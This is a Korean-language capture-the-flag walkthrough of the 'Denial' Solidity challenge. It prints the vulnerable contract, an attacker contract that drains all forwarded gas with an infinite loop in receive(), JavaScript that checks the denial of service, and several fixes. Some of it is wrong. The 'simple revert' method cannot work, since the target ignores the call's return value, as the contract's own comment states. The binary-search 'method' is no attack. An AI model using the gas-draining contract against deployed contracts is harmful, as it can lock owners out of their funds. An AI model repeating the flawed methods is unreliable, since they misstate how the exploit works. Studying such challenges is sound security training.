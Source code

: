 # Denial - 서비스 거부 공격 문제

## 🎯 문제 개요

**목표**: owner가 `withdraw()` 함수를 호출할 때 자금 인출을 막아서 서비스 거부 공격을 성공시키기 (컨트랙트에 자금이 남아있고, 트랜잭션 가스가 1M 이하일 때)

**문제 유형**: DoS(Denial of Service) 공격
**난이도**: ★★★☆☆

## 📋 컨트랙트 분석

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // 인출 파트너 - 가스 지불, 인출 분할
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // 파트너 잔액 추적

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // 1%를 수신자에게, 1%를 owner에게 인출
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // 반환값 확인 없이 호출 수행
        // 수신자가 revert하더라도 owner는 여전히 자신의 몫을 받음
        partner.call{value: amountToSend}("");  // 🚨 취약점!
        payable(owner).transfer(amountToSend);   // 🎯 이 줄이 실행되면 안됨
        // 마지막 인출 시간 기록
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // 자금 입금 허용
    receive() external payable {}

    // 편의 함수
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

## 🔍 취약점 분석

### 핵심 취약점: 무제한 가스 소모
- **위치**: `partner.call{value: amountToSend}("");`
- **문제점**: 외부 호출에 가스 제한이 없음
- **영향**: 악의적인 컨트랙트가 모든 가용 가스를 소모할 수 있음
- **결과**: `payable(owner).transfer(amountToSend)`가 실행되지 않음

### 공격 벡터
1. 가스를 소모하는 `receive()` 함수가 있는 악의적인 컨트랙트 배포
2. 악의적인 컨트랙트를 인출 파트너로 설정
3. `withdraw()`가 호출되면 악의적인 컨트랙트가 모든 가스를 소모
4. 가스 부족으로 owner의 transfer 실패

## 🚀 해결방법

### 방법 1: 악의적인 컨트랙트 배포

**1단계**: Remix IDE에서 공격 컨트랙트 생성

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Attacker {
    IDenial denial;
    event GasLeft(uint remain);
    
    constructor(address payable _denialAddress) {
        denial = IDenial(_denialAddress);
        denial.setWithdrawPartner(address(this));
    }
    
    receive() payable external {
        // 모든 가스를 소모하는 무한 루프 - DoS 공격!
        while(true) {
            emit GasLeft(gasleft());
        }
    }
}
```

**2단계**: Denial 컨트랙트 주소로 배포

**3단계**: 공격 성공 확인

```javascript
// 공격 성공 확인
try {
    await contract.withdraw({gas: 1000000}); // 1M 가스 제한
    console.log("❌ 공격 실패 - withdraw 성공");
} catch (error) {
    console.log("✅ DoS 공격 성공!");
    console.log("남은 잔액:", await getBalance(contract.address));
}
```

### 다른 방법들

#### 방법 2: 가스 경계값 공격
```javascript
// 이진 탐색을 이용한 정확한 가스 경계값 찾기
let low = 21000;   // 최소 트랜잭션 가스
let high = 100000; // 충분한 가스

while (low <= high) {
    const mid = Math.floor((low + high) / 2);
    try {
        await contract.withdraw({gas: mid});
        high = mid - 1;  // 더 낮은 가스로 시도
    } catch (error) {
        low = mid + 1;   // 더 높은 가스 필요
    }
}
```

#### 방법 3: 간단한 리버트 컨트랙트
```solidity
contract SimpleAttacker {
    constructor(address _denial) {
        IDenial(_denial).setWithdrawPartner(address(this));
    }
    
    receive() external payable {
        revert("공격!");
    }
}
```

## 🔧 기술적 세부사항

### 가스 메커니즘
- **EIP-150 규칙**: 외부 호출시 사용 가능한 가스의 63/64를 받음
- **공격 원리**: 전달된 모든 가스를 소모하여 후속 작업 방지
- **핵심 포인트**: `transfer()`는 실행을 위해 가스가 필요함

### 공격 흐름
1. `withdraw()`가 1M 가스로 호출됨
2. `partner.call{value: amount}("")`가 ~984,375 가스(63/64) 전달
3. 악의적인 `receive()`가 전달된 모든 가스 소모
4. 가스 부족으로 `payable(owner).transfer()` 실패
5. owner가 자금을 받지 못함, DoS 공격 성공

## 🎯 핵심 학습 포인트

1. **외부 호출 가스 제한**: 외부 호출 시 항상 가스 제한 지정
2. **체크-이펙트-상호작용 패턴**: 외부 상호작용 전에 상태 변경
3. **풀 페이먼트 패턴**: 푸시보다는 풀 방식의 지불 방법 사용
4. **리엔트런시 가드**: 악의적인 콜백으로부터 보호

## 🛡️ 완화 전략

### 수정 1: 가스 제한 호출
```solidity
partner.call{value: amountToSend, gas: 2300}("");
```

### 수정 2: 작업 순서 변경
```solidity
payable(owner).transfer(amountToSend);  // owner 먼저
partner.call{value: amountToSend}("");  // partner 나중에
```

### 수정 3: 풀 페이먼트 패턴
```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    pendingWithdrawals[partner] += amountToSend;
    pendingWithdrawals[owner] += amountToSend;
}

function claim() public {
    uint256 amount = pendingWithdrawals[msg.sender];
    pendingWithdrawals[msg.sender] = 0;
    payable(msg.sender).transfer(amount);
}
```

## 🏆 문제 완료 체크리스트
- ✅ 가스 소모 악의적 컨트랙트 배포
- ✅ 인출 파트너로 설정
- ✅ 1M 가스 이하에서 `withdraw()` 실패 확인
- ✅ 컨트랙트에 여전히 자금이 있는지 확인
- ✅ Owner가 자신의 몫을 받지 못함을 확인

**결과**: DoS 공격 성공 - Owner가 영구적으로 자금에 접근할 수 없음!